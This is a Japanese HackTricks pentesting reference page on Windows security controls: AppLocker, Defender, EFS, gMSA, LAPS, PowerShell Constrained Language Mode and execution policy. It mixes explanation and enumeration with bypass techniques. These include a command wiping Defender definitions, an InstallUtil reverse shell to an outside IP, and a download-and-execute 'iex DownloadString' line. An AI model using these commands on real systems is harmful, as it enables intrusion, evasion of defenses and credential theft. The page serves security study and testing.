

# Windows セキュリティコントロール

{{#include ../banners/hacktricks-training.md}}

## AppLocker ポリシー

アプリケーションのホワイトリストとは、システム上に存在し、実行することが許可されたソフトウェアアプリケーションや実行ファイルの一覧です。目的は、組織の特定のビジネスニーズに合わない有害なマルウェアや未承認ソフトウェアから環境を保護することです。

[AppLocker](https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/applocker/what-is-applocker) は Microsoft の**アプリケーションホワイトリストソリューション**であり、システム管理者が**ユーザーによるアプリケーションやファイルの実行を制御**できます。実行ファイル、スクリプト、Windows インストーラーファイル、DLL、パッケージ化されたアプリ、パッケージ化されたアプリのインストーラーを**細かく制御**できます。\
組織が**cmd.exe や PowerShell.exe をブロック**し、特定のディレクトリへの書き込みアクセスを制限することは一般的ですが、**これらはすべてバイパス可能です**。

### 確認

ブラックリストまたはホワイトリストに登録されているファイルや拡張子を確認します。

```bash
Get-ApplockerPolicy -Effective -xml

Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections

$a = Get-ApplockerPolicy -effective
$a.rulecollections
```

`Test-AppLockerPolicy` は、特定の ID に対する候補ファイルを AppLocker ポリシーで評価します。ルールはユーザーやグループを対象にできるため、ペイロードを実行するトークンのアカウントをテストしてください。ルールの照合に使われるパス、ハッシュ、発行元メタデータの確認には、`Get-AppLockerFileInformation` も役立ちます。<sup>[[5]](#references)</sup>

```powershell
$policy = Get-AppLockerPolicy -Effective
$user = [System.Security.Principal.WindowsIdentity]::GetCurrent().Name
Test-AppLockerPolicy -PolicyObject $policy -Path C:\Users\Public\payload.exe -User $user
Get-AppLockerFileInformation -Path C:\Users\Public\payload.exe | Format-List
```

拒否されたテスト結果を強制ブロックとみなす前に、そのルールコレクションの**実効的な強制モード**と Application Identity サービスを確認してください。`AuditOnly` はルールを評価しますが、実行は許可します。一方、そのコレクションにルールが含まれている場合、`NotConfigured` は無効と同じではありません。<sup>[[7]](#references)</sup> `AppIDSvc` が停止していると、AppLocker の強制は機能しません。<sup>[[9]](#references)</sup> これらを確認することで、実際のバイパスと、ファイルをブロックしなかったポリシーを区別できます。

```powershell
(Get-AppLockerPolicy -Effective).RuleCollections | Select-Object CollectionType, EnforcementMode
Get-Service AppIDSvc
Get-AppLockerFileInformation -EventLog -EventType Audited -Statistics
```

制御された実行テストでは、AppLocker のイベントログを確認します。**8003/8006** は、監査モードで EXE/DLL またはスクリプト/MSI がブロックされるはずだったことを示し、**8004/8007** は実際にブロックされたことを示します。実行予定の経路と同じファイルタイプおよび ID でテストしてください。<sup>[[8]](#references)</sup>

このレジストリパスには、AppLocker によって適用される構成とポリシーが含まれており、システムで現在有効なルール一式を確認できます。

- `HKLM\Software\Policies\Microsoft\Windows\SrpV2`

### Bypass

- AppLocker ポリシーの Bypass に役立つ**書き込み可能なフォルダー**: AppLocker が `C:\Windows\System32` または `C:\Windows` 内の任意のファイルの実行を許可している場合、**書き込み可能なフォルダー**を利用して**これを Bypass**できます。

```
C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
C:\Windows\System32\spool\drivers\color
C:\Windows\Tasks
C:\windows\tracing
```

- 一般的に**信頼されている**[**"LOLBAS's"**](https://lolbas-project.github.io/)バイナリも、AppLockerのバイパスに役立ちます。
- **不適切に記述されたルールもバイパスできる可能性があります**
  - たとえば、**`<FilePathCondition Path="%OSDRIVE%*\allowed*"/>`**の場合、任意の場所に**`allowed`というフォルダー**を作成すれば許可されます。
  - 組織は**`%System32%\WindowsPowerShell\v1.0\powershell.exe`実行ファイルのブロック**に注力しがちですが、`%SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe`や`PowerShell_ISE.exe`など、[**PowerShell実行ファイルの他の場所**](https://www.powershelladmin.com/wiki/PowerShell_Executables_File_System_Locations)を見落とすことがあります。
- **DLLの強制は、システムへの追加負荷や、何も壊れないことを確認するために必要なテスト量が理由で、有効になっていることはほとんどありません**。そのため、**バックドアとしてDLLを使用すればAppLockerのバイパスに役立ちます**。
- [**ReflectivePick**](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick)または[**SharpPick**](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick)を使うと、任意のプロセス内で**Powershell**コードを**実行**し、AppLockerをバイパスできます。詳細は[https://hunter2.gitbook.io/darthsidious/defense-evasion/bypassing-applocker-and-powershell-constrained-language-mode](https://hunter2.gitbook.io/darthsidious/defense-evasion/bypassing-applocker-and-powershell-constrained-language-mode)を確認してください。<sup>[[1]](#references)</sup>

## Credentials Storage

### Security Accounts Manager (SAM)

ローカルの認証情報はこのファイルに保存されており、パスワードはハッシュ化されています。

### Local Security Authority (LSA) - LSASS

シングルサインオンのため、**認証情報**（ハッシュ化されたもの）はこのサブシステムの**メモリ**に**保存**されます。\
**LSA**はローカルの**セキュリティポリシー**（パスワードポリシー、ユーザーのアクセス許可など）、**認証**、**アクセストークン**などを管理します。\
ローカルログインの場合、LSAは**SAM**ファイル内の認証情報を**確認**し、ドメインユーザーを認証する際には**ドメインコントローラー**と**通信**します。

**認証情報**は**LSASSプロセス**内に**保存**されます。Kerberosチケット、NTおよびLMハッシュ、簡単に復号できるパスワードなどが含まれます。

### LSA secrets

LSAは一部の認証情報をディスクに保存することがあります。

- Active Directoryのコンピューターアカウントのパスワード（到達不能なドメインコントローラー）。
- Windowsサービスのアカウントのパスワード
- スケジュールされたタスクのパスワード
- その他（IISアプリケーションのパスワードなど）

### NTDS.dit

これはActive Directoryのデータベースです。ドメインコントローラーにのみ存在します。

## Defender

[**Microsoft Defender**](https://en.wikipedia.org/wiki/Microsoft_Defender)は、Windows 10、Windows 11、および一部のWindows Serverバージョンで利用できるアンチウイルスです。**`WinPEAS`**などの一般的なpentestingツールを**ブロック**します。ただし、これらの**保護をバイパスする方法**があります。

### Check

**Defender**の**状態**を確認するには、PS cmdlet **`Get-MpComputerStatus`**を実行します（有効かどうかは**`RealTimeProtectionEnabled`**の値で確認できます）。

<pre class="language-powershell"><code class="lang-powershell">PS C:\> Get-MpComputerStatus

[...]
AntispywareEnabled              : True
AntispywareSignatureAge         : 1
AntispywareSignatureLastUpdated : 12/6/2021 10:14:23 AM
AntispywareSignatureVersion     : 1.323.392.0
AntivirusEnabled                : True
[...]
NISEnabled                      : False
NISEngineVersion                : 0.0.0.0
[...]
<strong>RealTimeProtectionEnabled       : True
</strong>RealTimeScanDirection           : 0
PSComputerName                  :
</code></pre>

列挙するには、次のコマンドも実行できます。

```bash
WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List
wmic /namespace:\\root\securitycenter2 path antivirusproduct
sc query windefend

#Delete all rules of Defender (useful for machines without internet access)
"C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```

## Encrypted File System (EFS)

EFSは、**File Encryption Key (FEK)** と呼ばれる**対称鍵**を使ってファイルを暗号化し、保護します。この鍵はユーザーの**公開鍵**で暗号化され、通常の `$DATA` 代替データストリームではなく、ファイルのNTFS `$EFS` メタデータ（`$LOGGED_UTILITY_STREAM`）に保存されます。<sup>[[10]](#references)</sup> 復号時には、ユーザーのデジタル証明書に対応する**秘密鍵**でFEKを復元します。構成済みのデータ回復エージェント（DRA）は、Data Recovery Fieldに別の暗号化済みFEKのコピーを保持します。<sup>[[13]](#references)</sup>

**ユーザーが操作しなくても復号されるケース**には、次のものがあります。

- ファイルやフォルダーを[FAT32](https://en.wikipedia.org/wiki/File_Allocation_Table)のようなEFS非対応のファイルシステムに移動すると、自動的に復号されます。
- SMB/CIFSプロトコル経由でネットワークに送信される暗号化ファイルは、送信前に復号されます。

この暗号化方式では、所有者は暗号化ファイルに**透過的にアクセス**できます。ただし、所有者のパスワードを変更してログインするだけでは、復号できません。

**要点**：

- EFSは対称鍵FEKを使用し、ユーザーの公開鍵で暗号化します。
- 復号時には、ユーザーの秘密鍵を使ってFEKにアクセスします。
- FAT32へのコピーやネットワーク送信など、特定の条件下で自動的に復号されます。
- 暗号化ファイルには、追加の操作なしで所有者がアクセスできます。

### EFS情報の確認

`%APPDATA%\Microsoft\Protect`にある情報からEFSの使用を推測しないでください。ここには多くのWindows機能で使われるDPAPIマスターキーが保存されています。<sup>[[19]](#references)</sup> 代わりに、`cipher /c "C:\path\file"`で暗号化ファイルを調べ、ユーザー証明書と回復証明書を一覧表示します。`cipher /e`と`cipher /d`は、対応する秘密鍵を持つプリンシパルのファイルを暗号化・復号します。<sup>[[11]](#references)</sup>

### EFSファイルの復号

`cipher /c`に回復証明書が表示され、その証明書に**対応するDRA秘密鍵**をPFX形式で持っている場合は、そのPFXを現在のユーザーの証明書ストアにインポートしてからファイルを復号します。<sup>[[11]](#references)[[12]](#references)</sup> 新たに生成したDRA証明書では、古いファイルを復号できません。ファイルの暗号化時に、その公開鍵がすでに含まれている必要があります。NTFS ACLによるアクセス権やアカウントパスワードのリセットだけでは、必要な秘密鍵は得られません。<sup>[[13]](#references)</sup>

```cmd
cipher /c "C:\path\file"
certutil -user -importPFX My recovery.pfx
cipher /d "C:\path\file"
```

#### 権限を持つシステムである場合

この方法では、**victim user** がホスト上で**プロセス**を**実行中**である必要があります。その場合、`meterpreter` セッションからユーザーのプロセストークンを偽装できます（`incognito` の `impersonate_token`）。または、ユーザーのプロセスに `migrate` できます。

#### ユーザーのパスワードがわかっている場合

Mimikatz でユーザーの証明書と秘密鍵をインポートし、EFS で保護されたファイルを復号できます。<sup>[[2]](#references)</sup>

{{#ref}}
https://github.com/gentilkiwi/mimikatz/wiki/howto-~-decrypt-EFS-files
{{#endref}}

## グループ管理サービスアカウント (gMSA)

Microsoft は、IT インフラストラクチャにおけるサービスアカウントの管理を簡素化するため、**グループ管理サービスアカウント (gMSA)** を開発しました。「**パスワードを無期限にする**」設定が有効になっていることが多い従来のサービスアカウントとは異なり、gMSA はより安全で管理しやすいソリューションを提供します。

- **パスワードの自動管理**: gMSA は複雑な 240 バイトのパスワードを使用し、通常は 30 日ごとにローテーションします。ドメインコントローラーは KDS キーのマテリアルを使ってパスワードを導出するため、手動でのパスワード更新は不要です。<sup>[[16]](#references)[[20]](#references)</sup>
- **セキュリティの強化**: これらのアカウントはロックアウトされず、対話型ログインにも使用できないため、セキュリティが強化されます。
- **複数ホストのサポート**: gMSA は複数のホストで共有できるため、複数のサーバー上で実行されるサービスに適しています。
- **スケジュールされたタスクへの対応**: 管理サービスアカウントとは異なり、gMSA はスケジュールされたタスクの実行をサポートします。
- **SPN 管理の簡素化**: コンピューターの sAMaccount 情報や DNS 名が変更されると、システムが Service Principal Name (SPN) を自動更新するため、SPN の管理が簡素化されます。

ドメインコントローラーは、読み取り時に KDS から導出したパスワードのマテリアルを使って LDAP 属性 _**msDS-ManagedPassword**_ を構築します。この値は独立して保存されたパスワードではありません。通常、30 日ごとに変更されます。<sup>[[20]](#references)</sup> 返される [MSDS-MANAGEDPASSWORD_BLOB](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/a9019740-3d73-46ef-a9ae-3ea8eb86ac2e) は**暗号化されたパスワードではありません**。その `CurrentPassword` フィールドには平文のパスワードが含まれています。<sup>[[14]](#references)</sup> アクセス権は `msDS-GroupMSAMembership` に基づいて確認されるため、取得権限を付与されたプリンシパルは、管理者やサービスホストに限らず、すべて対象になります。<sup>[[15]](#references)</sup> LDAP 接続には、LDAPS や SASL sealing などによる機密性の確保が必要です。<sup>[[20]](#references)</sup>

KDS root key の漏えい後にオフラインでパスワードを導出する方法については、[Golden gMSA/dMSA](active-directory-methodology/golden-dmsa-gmsa.md) を参照してください。

<sup>[[3]](#references)</sup>

このパスワードは [**GMSAPasswordReader**](https://github.com/rvazarkar/GMSAPasswordReader)**:** で読み取れます。

```
/GMSAPasswordReader --AccountName jkohler
```

[**詳しい情報はこちらの投稿をご覧ください**](https://cube0x0.github.io/Relaying-for-gMSA/)<sup>[[3]](#references)</sup>

また、**NTLM relay attack** を実行して gMSA の **password** を**読み取る**方法については、こちらの[ウェブページ](https://cube0x0.github.io/Relaying-for-gMSA/)もご確認ください。<sup>[[3]](#references)</sup>

## LAPS

列挙時には、**legacy Microsoft LAPS** とネイティブの **Windows LAPS** 実装を区別してください。Windows LAPS は 2023 年 4 月 11 日の Windows 更新プログラムで提供され、管理対象のローカル管理者パスワードを **Windows Server Active Directory** または **Microsoft Entra ID** にバックアップできます。AD を使用する展開では、パスワードの暗号化、暗号化されたパスワード履歴の保持、ドメインコントローラーの DSRM パスワード管理も可能です。ダウンロード可能な legacy MSI は新しい Windows バージョンでは非推奨ですが、Windows LAPS は legacy エミュレーションモードで動作できます。<sup>[[6]](#references)</sup>

legacy Microsoft LAPS と Windows LAPS は別々の実装であるため、属性や cmdlet に固有の攻撃を適用する前に、どちらが導入されているかを特定してください。リンク先のページでは、ここで手順を重複して説明することなく、検出、ACL の列挙、取得、有効期限の操作、オフライン復旧を扱っています。<sup>[[6]](#references)</sup>

{{#ref}}
active-directory-methodology/laps.md
{{#endref}}

## PS Constrained Language Mode

PowerShell の [**Constrained Language Mode**](https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/) は、COM オブジェクトのブロック、承認済み .NET 型のみの許可、XAML ベースのワークフローや PowerShell クラスの制限など、PowerShell を効果的に使用するために必要な機能の多くを**制限します**。

### **確認**

```bash
$ExecutionContext.SessionState.LanguageMode
#Values could be: FullLanguage or ConstrainedLanguage
```

### Bypass

`powershell.exe -Version 2` は、オプションの PowerShell 2 エンジンがインストールされているホストでのみ使える、旧式のダウングレード手法でした。更新済みの Windows 11 24H2 または Windows Server 2025 には含まれていないため、現在の CLM bypass として扱わないでください。<sup>[[17]](#references)</sup> アプリケーション制御下では、PowerShell は信頼されていないコードを Constrained Language で実行し、ポリシーで信頼されたスクリプトは Full Language で実行できます。<sup>[[18]](#references)</sup>

古い構成では、[**PSByPassCLM**](https://github.com/padovah4ck/PSByPassCLM) を使用できます。\
**コンパイルするには、** _**Add a Reference**_ -> _Browse_ ->_Browse_ -> `C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0\31bf3856ad364e35\System.Management.Automation.dll` を追加し、プロジェクトを **.Net4.5 に変更する必要がある場合があります**。

#### Direct bypass:

```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U c:\temp\psby.exe
```

#### Reverse shell:

```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.13.206 /rport=443 /U c:\temp\psby.exe
```

[**ReflectivePick**](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick) または [**SharpPick**](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick) を使うと、任意のプロセス内で **Powershell** コードを実行し、constrained mode を回避できます。詳しくは、[https://hunter2.gitbook.io/darthsidious/defense-evasion/bypassing-applocker-and-powershell-constrained-language-mode](https://hunter2.gitbook.io/darthsidious/defense-evasion/bypassing-applocker-and-powershell-constrained-language-mode) を確認してください。<sup>[[1]](#references)</sup>

## PS 実行ポリシー

デフォルトでは **restricted** に設定されています。このポリシーを回避する主な方法は次のとおりです。<sup>[[4]](#references)</sup>

```bash
1º Just copy and paste inside the interactive PS console
2º Read en Exec
Get-Content .runme.ps1 | PowerShell.exe -noprofile -
3º Read and Exec
Get-Content .runme.ps1 | Invoke-Expression
4º Use other execution policy
PowerShell.exe -ExecutionPolicy Bypass -File .runme.ps1
5º Change users execution policy
Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
6º Change execution policy for this session
Set-ExecutionPolicy Bypass -Scope Process
7º Download and execute:
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://bit.ly/1kEgbuH')"
8º Use command switch
Powershell -command "Write-Host 'My voice is my passport, verify me.'"
9º Use EncodeCommand
$command = "Write-Host 'My voice is my passport, verify me.'" $bytes = [System.Text.Encoding]::Unicode.GetBytes($command) $encodedCommand = [Convert]::ToBase64String($bytes) powershell.exe -EncodedCommand $encodedCommand
```

詳細は[こちら](https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/)<sup>[[4]](#references)</sup>

## Security Support Provider Interface (SSPI)

ユーザーの認証に使用できるAPIです。

SSPIは、通信を行う2台のマシンに適したプロトコルを見つける役割を担います。推奨される方法はKerberosです。次に、SSPIが使用する認証プロトコルをネゴシエートします。これらの認証プロトコルはSecurity Support Provider (SSP)と呼ばれ、各Windowsマシン内のDLLとして配置されています。通信するには、両方のマシンが同じプロトコルに対応している必要があります。

### 主なSSP

- **Kerberos**: 推奨されるプロトコル
  - %windir%\Windows\System32\kerberos.dll
- **NTLMv1** および **NTLMv2**: 互換性のため
  - %windir%\Windows\System32\msv1_0.dll
- **Digest**: WebサーバーとLDAP向け。パスワードはMD5ハッシュ形式
  - %windir%\Windows\System32\Wdigest.dll
- **Schannel**: SSLとTLS
  - %windir%\Windows\System32\Schannel.dll
- **Negotiate**: 使用するプロトコル（KerberosまたはNTLM）をネゴシエートするために使用されます。デフォルトはKerberosです。
  - %windir%\Windows\System32\lsasrv.dll

#### ネゴシエーションでは、複数の方法が提示される場合と、1つだけ提示される場合があります。

## UAC - User Account Control

[User Account Control (UAC)](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/how-user-account-control-works)は、**権限昇格を伴う操作に対して同意を求めるプロンプトを表示する**機能です。

{{#ref}}
authentication-credentials-uac-and-efs/uac-user-account-control.md
{{#endref}}


## References

- [1] [AppLockerとPowerShellの制約付き言語モードをバイパスする](https://hunter2.gitbook.io/darthsidious/defense-evasion/bypassing-applocker-and-powershell-contstrained-language-mode)
- [2] [手順 ~ EFSファイルの復号](https://github.com/gentilkiwi/mimikatz/wiki/howto-~-decrypt-EFS-files)
- [3] [gMSAのリレー](https://cube0x0.github.io/Relaying-for-gMSA/)
- [4] [PowerShell Execution Policyをバイパスする15の方法](https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/)
- [5] [AppLocker Windows PowerShell cmdletを使用する](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/app-control-for-business/applocker/use-the-applocker-windows-powershell-cmdlets)
- [6] [Windows LAPSの概要](https://learn.microsoft.com/en-us/windows-server/identity/laps/laps-overview)
- [7] [AppLockerルールを扱う](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/app-control-for-business/applocker/working-with-applocker-rules)
- [8] [AppLockerでイベント ビューアーを使用する](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/app-control-for-business/applocker/using-event-viewer-with-applocker)
- [9] [AppLockerのプロセスと相互作用](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/app-control-for-business/applocker/applocker-processes-and-interactions)
- [10] [ファイル ストリーム（ローカル ファイル システム）](https://learn.microsoft.com/en-us/windows/win32/fileio/file-streams)
- [11] [Cipherコマンド](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/cipher)
- [12] [Certutilコマンド](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil)
- [13] [回復エージェントのEFS秘密キーをバックアップする](https://learn.microsoft.com/en-us/troubleshoot/windows-server/certificates-and-public-key-infrastructure-pki/back-up-recovery-agent-efs-private-key)
- [14] [MSDS-MANAGEDPASSWORD_BLOB](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/a9019740-3d73-46ef-a9ae-3ea8eb86ac2e)
- [15] [ms-DS-GroupMSAMembership属性](https://learn.microsoft.com/en-us/windows/win32/adschema/a-msds-groupmsamembership)
- [16] [グループ管理サービス アカウントを保護する](https://learn.microsoft.com/en-us/entra/architecture/service-accounts-group-managed)
- [17] [Windowsクライアントで削除された機能](https://learn.microsoft.com/en-us/windows/whats-new/removed-features)
- [18] [App ControlでPowerShellを保護する](https://learn.microsoft.com/en-us/powershell/scripting/security/app-control/application-control)
- [19] [イベント4693とDPAPIマスターキー](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/auditing/event-4693)
- [20] [msDS-ManagedPasswordの構築](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/9cd2fc5e-7305-4fb8-b233-2a60bc3eec68)
{{#include ../banners/hacktricks-training.md}}
